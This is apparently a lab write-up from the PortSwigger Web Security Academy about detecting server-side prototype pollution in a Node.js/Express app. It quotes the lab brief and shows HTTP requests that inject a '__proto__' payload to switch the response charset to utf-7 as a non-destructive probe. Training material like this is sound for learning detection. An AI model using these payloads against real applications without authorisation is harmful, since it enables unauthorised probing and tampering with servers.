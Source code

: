 
# Detecting server-side prototype pollution without polluted property reflection

This lab is built on Node.js and the Express framework. It is vulnerable to server-side prototype pollution because it unsafely merges user-controllable input into a server-side JavaScript object.

To solve the lab, confirm the vulnerability by polluting Object.prototype in a way that triggers a noticeable but non-destructive change in the server's behavior. As this lab is designed to help you practice non-destructive detection techniques, you don't need to progress to exploitation.

You can log in to your own account with the following credentials: wiener:peter

Note: When testing for server-side prototype pollution, it's possible to break application functionality or even bring down the server completely. If this happens to your lab, you can manually restart the server using the button provided in the lab banner. Remember that you're unlikely to have this option when testing real websites, so you should always use caution.


---------------------------------------------

References: 

- https://portswigger.net/web-security/prototype-pollution/server-side









![img](images/Detecting%20server-side%20prototype%20pollution%20without%20polluted%20property%20reflection/1.png)
![img](images/Detecting%20server-side%20prototype%20pollution%20without%20polluted%20property%20reflection/2.png)
![img](images/Detecting%20server-side%20prototype%20pollution%20without%20polluted%20property%20reflection/3.png)
![img](images/Detecting%20server-side%20prototype%20pollution%20without%20polluted%20property%20reflection/4.png)

---------------------------------------------


It is possible to update the charset:

```
POST /my-account/change-address HTTP/2
...

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"+AGYAbwBv-","sessionId":"GBF3M0MGldLBwDhhruxk8a4GKGNX5ju0","__proto__":{"content-type": "application/json; charset=utf-7"}}
```



![img](images/Detecting%20server-side%20prototype%20pollution%20without%20polluted%20property%20reflection/5.png)



Now the value "+AGYAbwBv-" is interpreted as “foo”:

```
POST /my-account/change-address HTTP/2
...

{"address_line_1":"+AGYAbwBv-","address_line_2":"+AGYAbwBv-","city":"+AGYAbwBv-","postcode":"+AGYAbwBv-","country":"+AGYAbwBv-","sessionId":"GBF3M0MGldLBwDhhruxk8a4GKGNX5ju0"}
```



![img](images/Detecting%20server-side%20prototype%20pollution%20without%20polluted%20property%20reflection/6.png)